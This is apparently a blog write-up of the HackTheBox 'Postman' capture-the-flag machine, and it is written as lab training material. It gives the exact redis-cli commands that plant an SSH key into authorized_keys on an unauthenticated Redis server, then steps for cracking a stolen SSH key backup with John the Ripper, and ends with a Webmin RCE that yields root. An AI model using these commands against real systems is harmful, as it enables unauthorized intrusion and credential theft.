 ```yaml
---
title: 'HackTheBox - [CTF] Postman'
summary: "Writeup of the HackTheBox's Postman CTF."
---
```


![banner](/blog/hackthebox-ctf-postman/banner.png)

As always with a new Machine, let's enumerate open ports with nmap:

![nmap](/blog/hackthebox-ctf-postman/nmap.png)

As a result, we can see that there is a Apache webserver on port 80, but after analysing and scanning
it we know that there is nothing interesting in this place. On the other hand, there is a MiniServ 1.910
server installed on port 10000 that look interesting, let's try to open it on browser:

![ssl](/blog/hackthebox-ctf-postman/ssl.png)

It's running in SSL mode, so we have to open it with **https://**.

![webmin](/blog/hackthebox-ctf-postman/webmin.png)

We land on an authentication page, we need to have valid username and password to enter the Webmin interface page.
It does not seem possible to exploit anything here, so let's leave that for later, and find something else.

Let's start another nmap scan to try to find higher open ports:

![nmap](/blog/hackthebox-ctf-postman/nmap2.png)

Interesting, the port 6379 is open with **redis** installed there. Redis is an open source, in-memory data structure store,
used as a database, cache and message broker, for more information about redis [click here](https://redis.io/).

Let's get info about the version of redis used by the server.

![redis](/blog/hackthebox-ctf-postman/redis-info.png)

So the redis versions intalled on the server is version 4.0.9.
With a quick google search it's easy to find an exploit for this version of redis,
[here is](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html) a redis Remote Command Execution exploit which does not require authentication.

The goal of this exploit is to write our own **ssh key** inside the server directory **~/.ssh/authorized_keys**,
so we can directly access to the server with ssh.

First, we have to generate our ssh key:

```shell
ssh-keygen -t rsa -C "exploit@redis.io"
```

![ssh key](/blog/hackthebox-ctf-postman/ssh-key.png)

Now that we have the key, we have to put it inside the Redis server memory, and later to transfer it into a file,
in a way that the resulting authorized_keys file is still a valid one.

To do this, let's pad the public ssh key we generated with newlines before and after the content:

```shell
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

Foo.txt is just our public ssh key but with newlines. Now we can write this string inside the memory of Redis using redis-cli.

Let's start by deleting all the keys that may already exists in the Redis database:

```shell
redis-cli -h 10.10.10.160 flushall
```

Let's now write our ssh key inside the redis memory, we are telling redis to name this key 'crackit':

```shell
cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit
```

Now that our key is inside the redis memory, we have to dump the memory content into the **~/.ssh/authorized_keys file**.
It can be done by first setting the database dump directory to **/var/lib/redis/.ssh**, the redis home directory being /var/lib/redis.

```shell
redis-cli -h 10.10.10.160 config set dir /var/lib/redis/.ssh
```

```shell
redis-cli -h 10.10.10.160 config get dir
```

Then by setting the database dump filename by authorized_keys.

```shell
redis-cli -h 10.10.10.160 config set dbfilename "authorized_keys"
```

And finally by saving the configuration change.

```shell
redis-cli -h 10.10.10.160 save
```

![redis cli](/blog/hackthebox-ctf-postman/redis-cli.png)

Great, we can now access the server directly by ssh as the redis user.
But before being able to connect we have to add some configuration inside our **~/.ssh/config file**,
so we will be able to connect with our ssh key to the server, without redis user password.

Add this config to **.ssh** config file:

```shell
Host 10.10.10.160
    HostName 10.10.10.160
    User redis
    IdentityFile /root/Documents/postman/id_rsa
```

Then we have to specify our private key while using the ssh command.

```shell
ssh -i id_rsa redis@10.10.10.160
```

![shell](/blog/hackthebox-ctf-postman/shell.png)

We now have an ssh access with the user redis, our next goal is to get access to a system user with higher privilege.

While searching in the various server's directories, we can find that there is a user named **Matt** by navigating
to **/home** directory. And one notices an interesting backup file in the **/opt** directory, the filename is **id_rsa.bak**.
We can guess by name that this is a backup of an ssh private key, maybe the Matt's ssh private key...

Let's transfert this file into our computer:

```shell
scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak /root/Documents/postman
```

Then, let's use ssh2john to get the hash of this ssh key:

```shell
ssh2john id_rsa.bak > id_rsa.crack
```

And finally, let's use JohnTheRipper to crack the hash:

```shell
john --wordlist=/root/Downloads/rockyou.txt id_rsa.crack
```

![ssh crack](/blog/hackthebox-ctf-postman/ssh-crack.png)

Yeah ! John find that the passphrase of the key is : **computer2008**.
So let's try to connect to server ssh with user Matt using this key.

First, we need to change the .ssh config file to match with this new key, and we have to change the **id_rsa.bak**
file permission to **600**. Then we can connect.

```shell
ssh -i id_rsa.bak Matt@10.10.10.160
```

Oh oh bad news, we can't connect to ssh with user Matt... so let's try with command su.

![matt](/blog/hackthebox-ctf-postman/matt.png)

Bingo! We own the user Matt!

Let's go back now to the Webmin authentication page that we found at the beginning, and let's try to connect with user Matt.

![webmin matt](/blog/hackthebox-ctf-postman/webmin-matt.png)

Yes we can connect with Matt credentials! A quick google search and here we go with a Remote Command Execution exploit for Webmin,
[here is](https://www.exploit-db.com/exploits/46984) the exploi page. This exploit a vulnerability in the Package Updates pages of Webmin user interface.
So let's use this metasploit module to get root!

![rooted](/blog/hackthebox-ctf-postman/rooted.png)

BINGO! Machine rooted!
